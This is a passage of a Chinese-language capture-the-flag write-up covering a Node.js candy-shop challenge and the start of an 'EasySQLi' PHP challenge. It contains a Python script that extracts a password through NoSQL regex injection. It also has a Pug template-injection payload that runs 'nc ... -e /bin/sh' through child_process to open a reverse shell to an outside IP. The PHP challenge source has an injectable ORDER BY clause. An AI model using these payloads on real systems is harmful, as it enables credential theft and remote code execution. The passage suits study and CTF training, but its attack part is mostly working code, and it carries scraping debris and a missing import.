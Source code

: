 ```java
```

而在这个页面下存在着`pug`模板注入，需要注意的是`github`的代码和比赛环境差距就在`address`变量，一个是字符型，一个是变量，要注意

### payload

```python
import requests
import time
import string

url = "http://127.0.0.1:3000/user/login"
password = ""
#charset = string.ascii_letters + string.punctuation
charset = string.printable

for i in range(64):
    for s in charset:
        data = {
            "username": "rabbit",
            "password[$regex]": f"^{re.escape(password + s)}"
        }
        #print(s)
        res = requests.post(url, data)
        if "You Bad Bad" in res.text:
            password += s
            print(password)
            break
```

```
user_name=rabbit&candy_name=bunny_candy&address=123 readonly)%0a                                #{console.log(global.process.mainModule.require("child_process").execSync("nc 192.168.232.1 9999 -e /bin/sh").toString('UTF-8'))}%0a                                input#address.form-control(type='text' name='address' value='123')
```

## EasySQLi

>  *2021/10/20*

### 题目

这道题给了源代码

```php
<?php
require_once('db.php');
highlight_file(__FILE__);

set_time_limit(1);
$s = floatval(microtime());

$order = $_GET['order'] ?? 1;
$sql = "SELECT CONCAT('RCTF{',USER(),'}') AS FLAG WHERE '🍬关注嘉然🍬' = '🍬顿顿解馋🍬' OR '🍬Watch Diana a day🍬' = '🍬Keep hunger away🍬' OR '🍬嘉然に注目して🍬' = '🍬食欲をそそる🍬' ORDER BY $order;";

$stm = $pdo->prepare($sql);
$stm->execute();
echo "Count {$stm->rowCount()}.";

usleep((1 + floatval(microtime()) - $s) * 1e6);
```
